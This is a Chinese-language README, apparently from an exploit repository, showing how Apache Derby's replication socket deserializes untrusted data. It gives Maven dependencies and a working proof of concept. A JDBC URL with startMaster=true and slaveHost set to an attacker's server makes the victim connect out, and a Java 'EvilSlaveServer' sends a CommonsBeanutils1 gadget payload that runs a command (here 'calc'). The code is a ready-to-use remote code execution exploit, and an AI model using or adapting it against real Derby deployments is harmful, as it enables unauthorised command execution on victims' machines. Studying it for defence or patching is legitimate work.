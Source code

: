 ## 原理

在`org.apache.derby.impl.store.replication.net.SocketConnection`中进行socket连接中

![image-20220808100348726](README/image-20220808100348726.png)

在`readMessage`方法中调用了输入流的`readObject`方法

之后在`ReplicationMessageTransmit$MasterReceiverThread`类存在`readMessage`方法的调用

![image-20220808100524088](README/image-20220808100524088.png)

因为`ReplicationMessageTransmit`类是通过配置中的`startMaster=true` 和 `slaveHost=127.0.0.2`将数据库从master复制到了slave中去的，所以如果我们可以搭建恶意服务器，然后受害端就会接收获取的数据，之后进行反序列化操作

## 依赖

```xml
<dependency>
    <groupId>org.apache.derby</groupId>
    <artifactId>derby</artifactId>
    <version>10.10.1.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.4</version>
</dependency>
```

## POC

```java
public static void main(String[] args) throws Exception{
    Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
    DriverManager.getConnection("jdbc:derby:webdb;startMaster=true;slaveHost=evil_server_ip");
}
```

`evil server`

```java
public class EvilSlaveServer {
    public static void main(String[] args) throws Exception {
        int port = 4851;
        ServerSocket server = new ServerSocket(port);
        Socket socket = server.accept();
        socket.getOutputStream().write(Serializer.serialize(new CommonsBeanutils1().getObject("calc")));
        socket.getOutputStream().flush();
        Thread.sleep(TimeUnit.SECONDS.toMillis(5));
        socket.close();
        server.close();
    }
}
```

